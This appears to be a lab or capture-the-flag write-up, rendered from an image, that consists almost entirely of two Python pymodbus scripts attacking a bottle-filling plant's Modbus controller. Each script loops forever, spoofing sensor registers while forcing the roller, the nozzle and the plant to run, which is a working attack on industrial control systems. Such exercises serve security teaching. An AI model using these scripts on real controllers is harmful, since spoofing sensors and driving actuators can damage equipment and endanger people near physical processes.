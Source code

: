 #### Repeat attack in question 2 abusing sensor registries.

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 0)  # Bottle is not filled
  client.write_register(2, 0)  # Bottle is not under the nozzle
  client.write_register(3, 1)  # Start the roller
  client.write_register(4, 1)  # Open the nozzle
  client.write_register(16, 1) # Start the plant
```

#### Repeat attack in question 3 abusing sensor registries.

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 0)  # Bottle is not filled
  client.write_register(2, 1)  # Bottle is under the nozzle
  client.write_register(3, 0)  # Stop the roller
  client.write_register(4, 1)  # Open the nozzle
  client.write_register(16, 1) # Start the plant
```
